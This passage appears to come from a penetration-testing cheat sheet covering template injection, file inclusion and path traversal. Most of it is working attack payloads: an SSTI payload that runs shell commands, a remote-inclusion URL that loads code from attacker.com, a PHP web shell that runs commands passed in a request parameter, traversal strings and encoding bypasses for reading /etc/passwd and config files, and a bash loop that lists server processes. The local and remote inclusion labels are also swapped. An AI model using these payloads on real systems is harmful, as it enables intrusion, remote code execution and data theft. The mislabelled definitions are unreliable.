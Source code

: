 - #### Server Side Template Injection (SSTI) :

```python
{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

# File Inclusion & Path Traversal

- #### File Inclusion Types :

```bash
# Local File Inclusion (RFI):
include.php?page=http://attacker.com/exploit.php

# Remote File Inclusion (LFI):
include.php?page=../../../../etc/passwd
```

- #### PHP Wrappers :

```bash
# PHP Wrappers :
- php://filter/convert.base64-encode/resource=/etc/passwd #Read Files.
- php://filter/convert.base64-decode/resource=data://plain/text,PHP_CODE_BASE64_ENCODED # Execute Commands.

          PHP Shell Code Execution : <?php system($_GET['cmd']); echo 'Shell done!'; ?>

# Data Wrappers :
data:text/plain,<?PHP_CODE_URL_ENCODED?>
```

- #### Base Directory Breakout :

```bash
# Bypass LFI restrictions : 
/var/www/html/..//..//..//etc/passwd

# Encoding Once and Double : 
?file=%2e%2e%2fconfig.php : ../config.php #Once
?file=%252e%252e%252fconfig.php : ../config.php #Double
```

- #### Session Files :

```bash
# PHP Session Files : 
<?php echo phpinfo(); ?> # Injected in Req Get parameter.
sessions.php?page=/var/lib/php/sessions/sess_[sessionID] # Accessing the session page with Session ID in Storage (Inspect)
```

- #### Post LFI:

```bash
# Flask
?page=../../../../proc/self/status # Retrieve user running web server.
?page=../../../../proc/self/cmdline # Retrieve command for current process. (self can be a process id)
		#	--> /usr/bin/python3 app.py
/?page=../../../../proc/self/cwd/app.py # Read the web app source code.
# The `/proc/self/cwd` is a symlink to the current working directory for the process.
/?page=../../../../proc/net/tcp # Display running services as well as their user.

# Retrieving all processes cmdlines 
for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "http://server.local:8000/?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
```